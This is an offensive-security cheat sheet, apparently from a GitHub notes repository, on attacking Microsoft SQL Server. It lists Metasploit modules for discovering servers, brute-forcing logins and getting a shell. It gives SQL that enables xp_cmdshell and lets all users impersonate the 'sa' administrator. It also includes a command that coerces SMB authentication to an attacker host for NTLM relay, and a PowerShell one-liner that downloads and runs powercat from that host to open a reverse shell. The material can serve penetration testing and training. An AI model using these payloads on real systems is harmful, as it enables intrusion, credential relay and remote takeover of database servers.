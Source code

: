 # Exploiting MS SQL
## Metasploit
* `auxiliary/scanner/mssql/mssql_ping` — Discover MSSQL servers (alternatively, use `—script=ms-sql-info` with Nmap).
* `auxiliary/scanner/mssql/mssql_login` — Brute force logins.
* `auxiliary/admin/mssql/mssql_enum` — Enumerate databases.
* `exploit/windows/mssql/mssql_payload` — Get a shell.

### References
* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
* [Using Metasploit](./Using%20Metasploit.md)
* [Using “nmap”](./Using%20%22nmap%22.md)

## xp_cmdshell
MS SQL includes the `xp_cmdshell` “extended”procedure, which allows a shell command to be called. This is disabled by default, but if enabled it can be used in a trigger to provide persistence on database activity.

```sql
# Enable MS SQL “advanced options”
#
sp_configure ‘Show Advanced Options’,1;
RECONFIGURE;

# Enable xp_cmdshell stored procedure
#
sp_configure ‘xp_cmdshell’,1;
RECONFIGURE;

# OPTIONAL: Allow all users to impersonate the “sa” (database
# administrator) user (this enables low-privilege website users
# to run xp_cmdshell)
#
USE master;
GRANT impersonate ON login::sa TO [public];

# Coerce MS SQL to connecting using SMB to an attacker at
# 1.2.3.4. Useful for NTLM relay attacks (if SMB signing isn’t
# turned on, that is).
#
EXEC master.sys.xp_dirtree ‘\\1.2.3.4\share’,1,1;

# Download an execute Powercat from an attacker at 1.2.3.4
# (using the built-in Python web server) and connect back to
# that IP on port 1337. Note that this in general should be
# caught by IDS/IDP systems, including Defender… But I’ve
# actually had it work for me out-of-the-box a surprising
# number of times.
#
EXEC master.sys.xp_cmdshell ‘powershell.exe -c “IEX(New-Object System.Net.WebClient).DownloadString(‘’http://1.2.3.4:8000/powercat.ps1’’); powercat -c 1.2.3.4 -p 1337 -e cmd.exe”’
```

### Additional Resources
* [TryHackMe: Windows Local Persistence](https://tryhackme.com/room/windowslocalpersistence) 
* [Using Powercat](./Using%20Powercat.md)
